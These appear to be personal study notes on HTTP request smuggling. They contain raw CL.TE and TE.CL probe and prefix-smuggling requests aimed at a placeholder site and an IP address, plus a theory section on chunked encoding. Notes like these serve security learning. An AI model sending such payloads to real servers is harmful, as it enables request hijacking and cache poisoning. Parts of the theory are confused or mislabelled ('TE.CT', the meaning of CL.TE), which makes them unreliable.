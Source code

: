 ## https request smuggle  
### How to find
- If request is being delayed then it could have been smuggled
- ref: https://portswigger.net/web-security/request-smuggling/finding
#### CL.TE
- Check if `CL.TE` is present ![CL.TE Differntial response](../images/content-smuggle/CL.TE.png)
- 
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 4
    Connection: keep-alive

    1
    A
    X
    ```
- Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay. 
- The below is for utilising the smuggle to add header.
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 6
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    \r\n
    0\r\n\
    \r\n\
    X-Ignore: X
    ```
  - remove extra `\r\n\` which is due to copy paste
  - Fist disable the update header content length to check if this is succeptilbe and then enable it to smuggle the request
  - Mind that there is no `\r\n\` after `X-Ignore: X` because next get request will be in new line if added

#### TE.CT
- timeout happens if `TE.CT` is present
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 60
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    \r\n
    0\r\n\
    \r\n\
    X-Ignore: X
    ```

- Differential attack method
  - Attach request (contains posioning payload)
  - Normal request (normal request)


### Theory
  - Always done in POST request not GET request
  - works in http1.1 ( does not close connection with every request, but if you want to close it then connection: close)
    - http pipeline which is stack queue of request
  - clrf \r\n`` means new line
  - `Content-Length`: length of context body in first line and then next line gives the content length of the next line
    e.g. 
    ```
    
    GET / HTTP/1.1
    Content-Length: 7
    \r\n
    apple\r\n\
    ```
  - `Transfer-Encoding: chunked`: it looks for `\r\n\` to know the end of the content body
    e.g. 
    ```
    GET / HTTP/1.1 \r\n\
    Transfer-Encoding: chunked\r\n\
    \r\n\
    1\r\n\
    a\r\n\
    6\r\n\
    hello\r\n\
    2\r\n\
    hi\r\n\
    \r\n\
    ```
  - what if both are given `Content-Length` and `Transfer-Encoding` then `Content-Length` will be ignored in http1.1
  - We have Frontend server(e.g. loadbalancer: ngrok) and Backend server(e.g. service). If multiple requests are done then all of them is joined in a single TCP connection using http pipelining.
    - ![step1](../images/content-smuggle/smuggle-0.png)
    - ![step2](../images/content-smuggle/smuggle-1.png)
    - ![step3](../images/content-smuggle/smuggle-2.png)
  - Poisoned `CL.TE` means if both are present then CL will be ignored 
  - Similarly `TE.CT` means if both are present then TE will be ignored
  - Similary `TE.TE` means if both are present then TE will be checked


